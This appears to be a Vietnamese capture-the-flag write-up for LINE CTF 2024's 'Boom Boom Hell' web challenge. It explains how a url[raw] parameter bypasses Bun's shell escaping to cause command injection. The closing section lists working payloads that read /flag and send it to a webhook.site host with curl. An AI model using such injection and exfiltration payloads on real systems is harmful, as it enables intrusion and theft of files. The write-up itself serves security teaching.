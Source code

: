 ```yaml
---
title: "LINE CTF 2024 - web writeup"
excerpt: "March 23, 2024, 09:00 AM ~ March 24, 2024, 09:00 AM (UTC+9) 💻"
header:
show_date: true
header:
  teaser: /assets/images/images-ctf/2024-03-20-LineCTF-2024/teaser.png
  teaser_home_page: true
  icon: /assets/images/images-icon/ctf.png
  overlay_image: /assets/images/images-ctf/2024-03-20-LineCTF-2024/background.png
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Boom Boom Hell* - 176 point/28 solved
## Description
```
Shall we dance? 🐻🐥🐰🎶
URL: http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp
```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/linectf2024/boomboomhell_898a5dc8c4b2ea241905c612d355ce58.zip)

## Solution

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image1.png)

Source code index.js không quá dài, chương trình chứa một api `/chall` với param `url`. 

Ở dòng code thứ 23 và 28 rất dễ thấycó lỗi command injection, mình sẽ thực hiện khai thác theo flow như sau:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image2.png)

Tại dòng 28. ta có thể thấy code thực ghi một số dữ liệu dạng datetime và url truyền từ input vào file `.log` . Làm mình nhớ tới một dạng ghi payload vào file rồi gọi tới file với bash để thực thi. Nhưng không phải. 

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image3.png)

Thực tế, tham số `url` được xử lý trước bằng hàm `escapeHTML()` của `bun`. Ban đầu mình nghĩ khó khăn ở đây là cần phải vượt qua hàm này sao cho độ dài chuỗi gốc và sau khi escape không khác nhau bao gồm ký tự đặc biệt để thực thi mã..

```js
if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
    return new Response("sorry, but the given URL is too complex for me");
}
```

`Bun.escapeHTML()` utility được sử dụng để escape các ký tự HTML trong các chuỗi. Các kiểu không phải là chuỗi sẽ được chuyển thành chuỗi trước khi thực hiện escape. Việc thay thế được thực hiện gồm: 
```js
" becomes "&quot;"
& becomes "&amp;"
' becomes "&#x27;"
< becomes "&lt;"
> becomes "&gt;"
```

ex:
```js
Bun.escapeHTML("<script>alert('Hello World!')</script>");
// &lt;script&gt;alert(&#x27;Hello World!&#x27;)&lt;&#x2F;script&gt;
```
Tham khảo thêm tại đây: https://bun.sh/guides/util/escape-html hoặc đây https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23

Mình nghĩ việc thêm escapeHTML ở đây như một cú lừa vậy. Bởi vì mình nghĩ khá dễ để bypass được filter này mà không cần tới các ký tự đặc biệt thuộc blacklist của `escapeHTML()`.

Trước tiên, xét tới phần sink. Phân tích cú pháp `${}` trong bun. Nói tới logic escape của Bun shell dưới dạng một function.

```js
import { $ } from "bun";

console.log($.escape('$(foo) `bar` "baz"'));
// => \$(foo) \`bar\` \"baz\"
```

Nếu không muốn chuỗi output bị escape, chỉ cần bọc nó trong một object `{ raw: 'str' }`
```js
import { $ } from "bun";

await $`echo ${{ raw: '$(foo) `bar` "baz"' }}`;
// => bun: command not found: foo
// => bun: command not found: bar
// => baz
```

Tham khảo [here](https://bun.sh/docs/runtime/shell#escape-escape-strings)

Từ ví dụ trên mình có được 2 ý tưởng để chèn payload: `$(cat /flag)` hoặc ``cat /flag``.

Lúc này, việc thêm một object từ `param.url` thì data này sau khi được parse bởi `${}` sẽ trả về định dạng raw ban đầu. Kết hợp với lệnh `node/curl` trước đó để tạo thành một command injection payload. 

```js
{
    "raw": $payload
}
```

Với data ở dạng raw như này, mình nghĩ có thể thêm cách thứ 3 chỉ cần thêm phân tách lệnh để bypass thôi như `;id;`, `|id|`

Nhưng với payload như này thì mình nghĩ chỉ khai thác cmi được ở dòng code thứ 28 thôi. Vì kết quả trả về khi truyền object của cú pháp `${lyURL}` sẽ gọi tới `toString` của nó chính là `https://www.lycorp.co.jp/[object%20Object]` không bao gồm payload nên không thực thi được. 
```sh
curl -sL https://www.lycorp.co.jp/[object%20Object]
```

Object `URL`: 
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image4.png)

`toString` của `URL` sẽ trả về `href` xem trong /blob/mastere/url.d.ts#L503
```text
* Getting the value of the `href` property is equivalent to calling {@link toString}.
```

Quay trở lại với payload đang nói trước đó 

Test với payload: `/chall?url[raw]=;id;`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image5.png)

test local xong. Tiếp theo chỉ việc gọi command `curl` tới webhook để lấy flag. 

Như mình đã giải thích ở trên, cuối cùng có 3 cách để làm bài này:
```bash
/chall?url[raw]=`curl+https://webhook.site/xxxxx+-d+@/flag`
```

hoặc 

```bash
/chall?url[raw]=$(curl+https://webhook.site/xxxx+-d+@/flag)
```

hoặc 
```bash
/chall?url[raw]=;curl+https://webhook.site/xxxxx+-d+@/flag;
```

